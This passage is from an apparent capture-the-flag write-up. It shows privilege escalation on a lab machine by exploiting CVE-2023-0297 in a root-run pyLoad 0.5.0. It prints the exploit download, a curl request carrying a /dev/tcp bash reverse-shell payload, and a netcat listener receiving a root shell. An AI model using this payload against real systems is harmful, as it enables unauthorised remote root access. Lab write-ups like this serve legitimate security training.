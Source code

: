 On the target I can see which use it's running as (`root`) and find out the version.

```console
sau@pc:~$ ps faxuww |grep pyload
root        1052  0.0  1.7 1226704 69536 ?       Ssl  18:37   0:06 /usr/bin/python3 /usr/local/bin/pyload
sau         1986  0.0  0.0   6676   720 pts/0    S+   20:40   0:00              \_ grep --color=auto pyload

sau@pc:~$ pyload --version
pyLoad 0.5.0
```

This version of `pyload` has [a preauth RCE](https://nvd.nist.gov/vuln/detail/CVE-2023-0297), and in this case the service is running with `root` privileges.

```console
$ wget https://raw.githubusercontent.com/overgrowncarrot1/CVE-2023-0297/main/CVE-2023-0297.sh
[...]
2023-11-13 14:44:44 (11.4 MB/s) - ‘CVE-2023-0297.sh’ saved [2472/2472]

$ chmod +x CVE-2023-0297.sh

$ ./CVE-2023-0297.sh  -l 10.10.16.5 -p 443 -w http://localhost:8000
         _____ _____  _____    ________   ___     _____  ___ ______ 
        |  _  |  __ \/  __ \   | ___ \ \ / / |   |  _  |/ _ \|  _  \
        | | | | |  \/| /  \/   | |_/ /\ V /| |   | | | / /_\ \ | | |
        | | | | | __ | |       |  __/  \ / | |   | | | |  _  | | | |
        \ \_/ / |_\ \| \__/\   | |     | | | |___\ \_/ / | | | |/ / 
         \___/ \____/ \____/   \_|     \_/ \_____/\___/\_| |_/___/  

 
Run nc -lvnp 443, press enter to continue

+ curl -i -s -k -X POST --data-binary 'jk=pyimport%20os;os.system("bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.5%2F443%200%3E%261%27");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://localhost:8000/flash/addcrypted2
```

On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.214] 36646
bash: cannot set terminal process group (1052): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# cat /root/root.txt
cat /root/root.txt
88473f[...]
```

## Summary
